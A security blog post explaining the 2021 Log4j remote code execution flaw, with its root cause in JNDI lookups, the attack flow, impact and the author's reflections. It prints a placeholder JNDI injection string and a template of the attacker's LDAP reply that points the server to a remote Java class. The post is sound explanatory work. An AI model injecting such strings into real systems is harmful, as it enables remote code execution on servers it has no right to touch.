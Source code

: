 ```yaml
---
layout: post
title: "A merry LOGmas"
author: "joelczk"
tags: Vulns
excerpt_separator: <!--more-->
---
```


Disclaimer: All exploits stated in this article are only for educational purposes and all the views expressed in this article are my own personal views and should not be associated with any other organizations/parties that I currently/used to represent.
<!--more-->

## What's happening
On December 12th 2021, the discovery of a criticial zero-day vulnerability in the ```log4j``` package shook the security community. This zero-day was tweeted, along with a POC published on github and has since been published as CVE-2021-44228. Within hours, there were numerous different versions of public POCs going around and twitter was mad active with tweets going around that various servers with the likes of Minecraft, Steam etc. are all vulnerable to this 0-day exploit. 

In the days that followed, more details about the vulnerability has been slowly unveiled. More and more companies are slowly being discovered to be vulnerable to this package while security teams are rushing to fight the spreading log4j fire. This post primarily talks about the technical details about log4j exploit and my view regarding this rce.

## What is log4j
Log4j is a popular logging library that is widely used in many of production applications.

## What is the log4j rce about?
The log4j RCE is an unauthenticated rce that can allow anyone to exploit the logging function done by log4j by crafting a malicious payload that can do a JNDI lookup which could possibly trigger a remote LDAP call, causing a malicious Java ckass to be instantiated.

The root cause of this vulnerability is due to the fact that unlike the common assumption that logging frameworks treat messages only as data and handle basic formatting, the log4j framework actually added lookups which included JNDI lookups. These JNDI lookups are generally not properly restricted which allows data or resources to be returned. Unfortunately, one of the data types which could be returned is a URI pointing to a Java class. This potentially meant that if we are able to load an untrusted Java class, we will be unknowingly executing someone else's malicious code.

This vulnerability is even more dangerous because log4j is commonly used to log our HTTP headers in the production environments. This meant that any attacker can trigger this exploit by simply intercepting the request and modifying the HTTP headers. 

## How the rce works
In the primary phase of the attack, the attacker will craft a malicious JNDI lookup string(such as ```${jndi:ldap//<host>:<post>/path}```) and include it in the vulnerable fields.

Afterwards, the vulnerable log4j instance will then make an LDAP query to the URI and the LDAP server will then respond with the directory information containing the secondary payload link.

```
dn:
javaClassName: <java class name>
javaCodeBase: <base url>
objectClass: javaNamingReference
javaFactory : <file base>
```

This seconday payload link contains the ```javaCodeBase``` and ```javaFactory``` that will be used to construct the location which contains the malicious Java class. Finally, the java class will be loaded into the memory and executed by the vulnerable log4j instance, completing the rce attack.

## Impact
The impact of this log4j vulnerability has been very widespread (possibly able to match the likes of shellshock), with more and more companies being discovered to be vulnerable by each day. Security teams all across the different industries are all rushing to patch and detect potential exploitations. 

Apart from that, there are variants of exploit string appearing in the wild each day that can avoid WAF detection and successfully exploit the vulnerable servers by evading the WAF. 

With the scale at which this exploit is developing at, attackers are investing more time and resources into research of this vulnerability. It can be reasonable to be prepared that large scales attack campaigns with automated exploitation of such a vulnerability might soon emerge.

## Afterthoughts
The sheer fact that the JNDI injection has been brought up and publicized during the Black Hat USA 2016 and the fact that this vulnerable feature has been requested in 2013 (no hate for the devs) means that this vulnerability has been around us for the last 5-8 years and yet it remains largely undetected until this fateful day. It actually brings me creeps that this vulnerability has been able to remain undetected for such a long time, and also due the sheer outreach of this vulnerability. This also serves as a timely reminder to everyone that there is no such thing as 100% secure systems, we would have to constantly keep our guard up to defend ourselves against such vulnerabilities. 